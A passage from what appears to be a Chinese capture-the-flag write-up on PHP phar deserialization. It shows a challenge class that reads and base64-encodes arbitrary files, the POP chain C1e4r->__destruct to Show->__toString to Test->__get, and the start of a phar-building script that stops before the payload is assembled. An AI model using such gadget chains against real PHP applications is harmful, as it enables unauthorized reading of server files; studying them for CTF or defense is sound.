 ```php
    }
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();
    }
    public function __get($key)
    {
        //echo($key);
        //echo(1233);
        return $this->get($key);
    }
    public function get($key)
    {
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
```

一眼就是感觉是phar反序列化，可是里面是**highlight_file**，经过本地测试是不能触发phar反序列化的

但是不知道题目环境怎么回事，可以正常触发。。。

pop链很简单

```php
C1e4r->__destruct ==>Show->__toString  ==>Test->__get
```

最后的phar生成文件

```php
<?php
class C1e4r
{
    public $test;
    public $str;
}

class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
}
$a=new C1e4r(1);
$b=new Show(2);
$c=new Test();
```